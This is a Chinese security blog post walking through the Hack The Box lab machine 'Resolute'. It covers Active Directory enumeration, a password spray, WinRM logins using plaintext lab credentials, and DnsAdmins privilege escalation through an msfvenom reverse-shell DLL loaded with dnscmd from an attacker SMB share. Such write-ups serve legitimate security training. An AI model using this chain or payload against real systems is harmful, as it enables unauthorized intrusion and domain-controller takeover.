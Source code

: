 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5H9qlG0jKJm6bjCwfgTKxg)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **180** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/HhnEClSmc37Bxb1zZj7tialnNnk1dnmft6ibz6n2lZaheQClZ7FHjs4RElm391lFKwznAZicyxB8VmZvSSEGHrXHQ/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/220

靶机难度：中级（4.7/10）

靶机发布日期：2020 年 5 月 28 日

靶机描述：

Resolute is an easy difficulty Windows machine that features Active Directory. The Active Directory anonymous bind is used to obtain a password that the sysadmins set for new user accounts, although it seems that the password for that account has since changed. A password spray reveals that this password is still in use for another domain user account, which gives us access to the system over WinRM. A PowerShell transcript log is discovered, which has captured credentials passed on the command-line. This is used to move laterally to a user that is a member of the DnsAdmins group. This group has the ability to specify that the DNS Server service loads a plugin DLL. After restarting the DNS service, we achieve command execution on the domain controller in the context of NT_AUTHORITY\SYSTEM .

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/KLN26icsnib2XYJCRIIHRBibXLekicoWWj63pjFjuYHlBicDncmnjctDfZtAbAodw3tO4bOczk4fxTl7EO5Pq2IM2LA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/fw07L4QCL8zxn8yLTxgxtaKEBOmKyfeXzaxN31SQFNho0f9EIq2uoMDO2O2PzQEJB0sCg2O6oeeyT10sNPHgSQ/640?wx_fmt=png)

  

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/65kKfpfiaHYJb5Dich6GdMtnZre8jhjTibGVwwOgApImzZWplXUib7CrRLG0ZlcicwWM9spLF5qwfdicWeLtwabw5VWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGovyDdIpnYHE1NZujV5lUR17cJ3licgqEkicnLV4S7WQcP8wzjCiaia3uCw/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.169...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGiczdlMMs4UOwV0LDW7BpfpJLpS7MBy68fHveuk4muYcHjnoxo99zsow/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGG3Xn9NhrpVE0D0ic5Amf11q7Tcab26p9JuIQ0LZ2ZvibDuGvThnYm4lA/640?wx_fmt=png)

```
sudo nmap -sC -sV -A -p- 10.10.10.169 -o 10.10.10.169
```

可看到 nmap 开了很多端口，ldap，smb，http 等... 可以开始枚举了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGmPQ43jtcfG00f6J7huIic05cDZlsarlSCnKHiar1abR8zXywY1EHhA3Q/640?wx_fmt=png)

```
enum4linux -a 10.10.10.169
```

ldap 进行枚举，这里用很多次了 enum4linux，发现了密码... 现在需要继续等待枚举 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGmQW0lxtAZGpZic4p4icJZQJibINbwVIBMUCicNsVbricS6cs9vEIPqatB2Q/640?wx_fmt=png)

可看到，枚举到了很多用户名... 爆破下

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGeFsCRKjVRxAXldt40HKcWmicDXQbnOQFia3BQpXvPCC7VIrVVKgnQGCw/640?wx_fmt=png)

利用 hydra 进行了爆破，获得了正确的用户名密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGxqIk1LpCPW9bD9CsqxnRQOblFZygm6ricibaUj2vDodib56hcO7TZZUibw/640?wx_fmt=png)

```
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

获得了 smb 用户名密码，这里利用了 evil-winrm 登录进入... 限制挺大

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGQytDYoH36wgML2cmX9eUN0wkJfibuhHbLUs5qjlKPVeic9SPvUPvfXew/640?wx_fmt=png)

这里利用 - force 查找隐藏的目录情况...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGoVVPVbrMO5sYUiblwPDfX0XFSotFLSknAeVdRI1tlOrSaRDYTL0rzhg/640?wx_fmt=png)

继续利用 force 获得 PSTranscripts 底层隐藏信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGL8qibBP7hI3KQx9Q7cvNyTVmSVqjAaZdFjnCsDXmoDUpzLGPRicfNialg/640?wx_fmt=png)

内容中包含了 ryan 用户密码信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGYpFib2zxjvGFxzqugnbz0iboibIsb5gztA7N947kwjOeVrKdibqbBcCHibA/640?wx_fmt=png)

```
evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```

继续利用 winrm 登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGxlWNtDwSRPXNQRBQlXVVAXWvX91Hoyr9QGnwaCicLSC6wvXKcK9KsWA/640?wx_fmt=png)

发现用户 ryan 是 DnsAdmins 的成员，成为 DnsAdmins 的成员组允许使用 dnscmd.exe，可以访问网络 DNS 信息，默认权限允许：读取和写入，创建所有子对象，删除子对象，特殊权限等，然后指定 smb 加载的插件 DLL 执行即可提权 ...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPeFzrib4q4YaA81LpknuIfGqsNybvyzpjJQWnFfr9NAtj8iaFnEg1ExsmpJXPf0YubHd7YS8zEv4FQ/640?wx_fmt=png)

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f dll > dayu.dll
impacket-smbserver dayu .
dnscmd.exe /config /serverlevelplugindll \\10.10.14.2\dayu\dayu.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```

很简单的思路，将服务器级别的插件设置为 dayu.dll 共享，停止和启动 DNS 服务器...

![](https://mmbiz.qpic.cn/mmbiz_png/HhnEClSmc37Bxb1zZj7tialnNnk1dnmft6ibz6n2lZaheQClZ7FHjs4RElm391lFKwznAZicyxB8VmZvSSEGHrXHQ/640?wx_fmt=png)

获得了 root_flag 信息...

不会的 google 搜索 DnsAdmins 组 shell exploit 吧.. 很多文章都讲解了...

linux 快打完了，回归 windows 退休的几台...

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/KLN26icsnib2XYJCRIIHRBibXLekicoWWj63pjFjuYHlBicDncmnjctDfZtAbAodw3tO4bOczk4fxTl7EO5Pq2IM2LA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/fw07L4QCL8zxn8yLTxgxtaKEBOmKyfeXzaxN31SQFNho0f9EIq2uoMDO2O2PzQEJB0sCg2O6oeeyT10sNPHgSQ/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)
